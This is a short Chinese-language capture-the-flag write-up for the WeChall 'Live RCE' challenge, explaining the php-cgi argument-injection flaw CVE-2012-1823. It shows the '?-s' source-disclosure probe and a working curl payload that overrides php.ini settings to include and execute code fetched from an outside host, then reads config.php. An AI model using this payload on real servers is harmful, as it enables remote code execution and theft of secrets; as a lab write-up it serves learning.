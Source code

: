 ```yaml
---
title: 'Warchall: Live RCE'
author: rk700
layout: post
categories:
  - writeup
tags:
  - PHP
  - wechall
---
```

<http://www.wechall.net/challenge/warchall/live_rce/index.php>  
这道题开始试了半天，发现没有注入什么的……然后在网上搜php rce，发现了有这个问题：CVE-2012-1823

根据解释，如果query string中不包含未urlencoded的等号，那么整个query会以空格分词，传给php-cgi。于是我们传-s，就会把php文件源码回显。试了`http://rce.warchall.net/?-s`，发现确实存在这个问题

然后我们就可以远程执行代码了  
{% highlight bash %}
$ curl http://rce.warchall.net/?-dallow_url_include%3dOn+-dauto_prepend_file%3dhttp%3a%2f%2fnabla.users.warchall.net%2f1+-n
{% endhighlight %}
这里会重写php.ini，使`http://nabla.users.warchall.net/1`被包含，于是类似于rfi。最后发现答案在文件`../config.php`中